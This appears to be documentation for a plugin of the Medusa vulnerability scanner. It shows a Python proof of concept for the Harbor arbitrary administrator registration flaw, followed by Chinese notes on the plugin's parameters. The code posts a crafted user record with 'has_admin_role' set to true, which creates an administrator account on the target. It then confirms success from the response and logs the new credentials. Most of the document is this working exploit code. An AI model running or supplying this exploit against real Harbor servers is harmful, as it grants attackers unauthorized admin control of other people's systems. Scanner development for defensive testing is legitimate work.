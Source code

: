 ```python
        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, proxies=proxies, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                          payload_url,
                                                                                                          rm,rm,head)
            _t = VulnerabilityInfo(Medusa)
			VulnerabilityDetails(_t.info, url,**kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:"+_+" || Target Url:"+url,e)  # 调用写入类传入URL和错误插件名
```

##### 参数

- ###### Url
  - 扫描器传入的链接

- ###### RandomAgent
  - 扫描器传入的随机或者自定义的`User-Agent`

- ###### proxies=None
  - 扫描器的代理，默认是关闭的
  - 如果需要代理只需要传入参数即可
  
- ###### Token

  - 该参数在`3.4`插件模板中替换`UnixTimestamp`参数
